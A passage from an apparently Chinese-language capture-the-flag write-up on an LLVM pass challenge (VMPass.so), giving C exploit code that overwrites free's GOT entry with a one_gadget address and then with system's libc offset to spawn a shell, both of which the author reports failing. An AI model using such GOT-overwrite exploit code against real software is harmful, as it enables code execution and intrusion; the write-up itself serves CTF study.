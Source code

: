 ```
```
因此，第三条语句应该是``add(2, 0x4942e);``，这样就得到了第一个one_gadget的地址。第四条语句将其写回到free.got中：``store(1);``，完成，我们连stack都没有用到。

exp：
```c
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg, int val){};
void min(int reg, int val){};

void o0o0o0o0(){
	add(1, 0x77E100);
	load(1);
	add(2, 0x4942e);
	store(1);
}
```
尝试运行，发现3个one_gadget都不行，应该是one_gadget的条件不满足。因此考虑写入system函数的地址，然后创建一个名为sh的函数，看看能不能执行到system("sh")。system函数的libc偏移为0x52290。

exp：
```c
void o0o0o0o0();
void pop(int reg){};
void push(int reg){};
void store(int reg){};
void load(int reg){};
void add(int reg, int val){};
void min(int reg, int val){};

void o0o0o0o0(){
	add(1, 0x77E100);
	load(1);
	add(2, 0x52290);
	store(1);
}

void sh(){};
```
![](13.png)
可惜，还是不行。使用原来的libc应该是可以跑one_gadget的，因为有两个one_gadget的条件是栈中某处为0，相对来说更容易满足一些。笔者尝试通过追踪函数调用链获取到VMPass.so的加载基址，但发现VMPass.so的runOnFunction函数是通过call寄存器的方式调用的，目前尚无思路。不过这道题本身还是不难理解的，能够做到修改one_gadget就已经足够了。

下一篇文章笔者将会分析今年（2022）国赛题的satool，看一下和去年的同名题有什么区别。
